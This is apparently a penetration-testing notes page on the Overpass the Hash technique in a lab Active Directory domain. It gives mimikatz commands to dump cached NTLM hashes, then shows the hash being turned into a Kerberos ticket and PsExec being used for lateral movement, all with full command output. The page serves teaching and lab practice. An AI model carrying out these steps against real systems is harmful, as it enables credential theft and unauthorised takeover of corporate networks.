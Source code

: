 ```yaml
---
description: >-
  With overpass the hash, we can "over" abuse an NTLM user hash to gain a full
  Kerberos Ticket Granting Ticket (TGT).
---
```


# Overpass The Hash



## Recap

With Overpass the Hash, we can "over" abuse the NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT). Then we use the TGT to obtain a Ticket Granting Service (TGS).





## Attack



### Check If Machine is Caching Credentials

We can check if a machine is caching credentials by right-clicking on an applicaton -> "show more options" -> and see if "Run as different user" is an option.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Launch Mimikatz

We can validate this with the **sekurlsa::logonpasswords** command from **mimikatz** after having spawned an Administrative shell. The command will dump the cached password hashes.

```powershell
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords

...
Authentication Id : 0 ; 1142030 (00000000:00116d0e)
Session           : Interactive from 0
User Name         : jen
Domain            : CORP
Logon Server      : DC1
Logon Time        : 2/27/2023 7:43:20 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1124
        msv :
         [00000003] Primary
         * Username : jen
         * Domain   : CORP
         * NTLM     : 369def79d8372408bf6e93364cc93075
         * SHA1     : faf35992ad0df4fc418af543e5f4cb08210830d4
         * DPAPI    : ed6686fedb60840cd49b5286a7c08fa4
        tspkg :
        wdigest :
         * Username : jen
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : jen
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
...
```



### Turn NTLM Hash to Kerberos Ticket

Let's perform the attack in mimikatz and turn the NTLM user hash into a full kerberos ticket. We can do so with **sekurlsa::path**.

```powershell
mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell 
user    : jen
domain  : corp.com
program : powershell
impers. : no
NTLM    : 369def79d8372408bf6e93364cc93075
  |  PID  8716
  |  TID  8348
  |  LSA Process is now R/W
  |  LUID 0 ; 16534348 (00000000:00fc4b4c)
  \_ msv1_0   - data copy @ 000001F3D5C69330 : OK !
  \_ kerberos - data copy @ 000001F3D5D366C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F3D5C63B68 (32) -> null
```



### Authenticate & Gain Interactive Shell.

The next step is to authenticate with the network to gain the ticket. We can do so with the "**net use**" command.

```powershell
PS C:\Windows\system32> net use \\files04
The command completed successfully.

PS C:\Windows\system32> klist

Current LogonId is 0:0x17239e

Cached Tickets: (2)

#0>     Client: jen @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC1.corp.com

#1>     Client: jen @ CORP.COM
        Server: cifs/files04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```



### Move Laterally

Now that we have a full kerberos ticket we can move laterally.

```powershell
PS C:\tools\SysinternalsSuite> .\PsExec.exe \\files04 cmd
```

\
